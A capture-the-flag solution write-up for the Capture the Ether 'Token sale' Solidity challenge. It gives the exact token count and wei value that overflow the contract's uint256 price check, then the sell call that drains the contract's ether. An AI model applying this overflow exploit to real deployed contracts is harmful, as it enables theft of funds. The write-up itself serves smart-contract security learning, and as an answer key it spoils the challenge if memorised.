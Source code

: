 # Token sale
https://capturetheether.com/challenges/math/token-sale/


1. Call the function "buy" with the argument (115792089237316195423570985008687907853269984665640564039458) and msg.value == 415992086870360064 wei (!).*
2. Call the function "sell" with the argument (1).
3. Contract balance will be 0.415992086870360064 Ether but that's enough to complete the challenge.  
!You may repeat step №1 four more times and repeat step №2 with argument (2) to make contract balance 0.07996043435180032 Ether.

*Сalculations:

numTokens - ?  
msg.value - ?

```
uint256 constant PRICE_PER_TOKEN = 1 ether;

function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
}
```

uint256 max value = 115792089237316195423570985008687907853269984665640564039457584007913129639935  
1 ether == 1000000000000000000 wei (10^18)

msg.value == numTokens * PRICE_PER_TOKEN

to cause overflow:  
numTokens = (uint256 max value)/10^18 + 1  
numTokens = 115792089237316195423570985008687907853269984665640564039458

msg.value = numTokens * 10^18 - (uint256 max value) - 1  
msg.value = 415992086870360064 wei (!)

